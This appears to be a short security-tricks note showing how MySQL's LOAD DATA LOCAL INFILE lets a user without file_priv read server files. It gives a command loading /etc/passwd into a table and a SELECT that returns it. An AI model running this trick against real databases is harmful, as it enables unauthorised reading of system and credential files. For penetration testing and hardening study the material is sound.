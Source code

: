 ###Reading files without file_priv=Y on MySQL
####Sneaky!

It's possible to read files within a system through mysql without actually having file_priv. All you need to be able to do, is create a table and add data to it. This is where the MySQL `LOAD DATA` command comes in handy.

`LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE test FIELDS TERMINATED BY '';`

followed by

`SELECT * FROM test;`

will return the contents of /etc/passwd.

Further Reading:

[Bugscollector Trick #9](http://bugscollector.com/tricks/9/)
[Orginating Thread](https://rdot.org/forum/forumdisplay.php?s=8179277f689172cf2dc0d1adf10753a1&f=23)